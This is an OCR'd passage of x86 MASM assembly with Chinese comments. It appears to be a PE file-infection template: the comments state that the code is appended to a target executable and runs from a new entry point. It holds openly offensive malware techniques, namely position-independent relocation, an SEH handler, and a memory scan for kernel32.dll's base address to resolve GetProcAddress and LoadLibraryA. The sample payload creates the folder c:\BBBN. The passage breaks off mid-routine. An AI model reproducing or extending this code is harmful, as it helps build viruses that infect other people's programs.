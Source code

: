 ```assembly

;被添加到目标文件的代码从这里开始，到APPEND_CODE_END处结束

    .code

jmp _NewEntry


szGetProcAddr  db  'GetProcAddress',0
szLoadLib      db  'LoadLibraryA',0
szCreateDir    db  'CreateDirectoryA',0   ;该方法在kernel32.dll中
szDir          db  'c:\\BBBN',0           ;要创建的目录


;-----------------------------
; 错误 Handler
;-----------------------------------------
_SEHHandler proc _lpException,_lpSEH,_lpContext,_lpDispatcher
  pushad
  mov esi,_lpException
  mov edi,_lpContext
  assume esi:ptr EXCEPTION_RECORD,edi:ptr CONTEXT
  mov eax,_lpSEH
  push [eax+0ch]
  pop [edi].regEbp
  push [eax+8]
  pop [edi].regEip
  push eax
  pop [edi].regEsp
  assume esi:nothing,edi:nothing
  popad
  mov eax,ExceptionContinueExecution
  ret
_SEHHandler endp

;-------------------------------------------
; 在内存中扫描 Kernel32.dll 的基址
; 从指定的基址处向高地址搜索。
;-------------------------------------------

_getKernelBase proc _dwKernelRet
  local @dwReturn
  
  pushad
  mov @dwReturn,0

  ;重定位
  call @F
@@:
  pop ebx
  sub ebx,offset @B

  ;创建用于错误处理的SEH结构
  assume fs:nothing
  push ebp
  lea eax,[ebx+offset _ret]
  push eax
  lea eax,[ebx+offset _SEHHandler]
  push eax
  push fs:[0]
  mov fs:[0],esp

  ;查找kernel32.dll的基址
```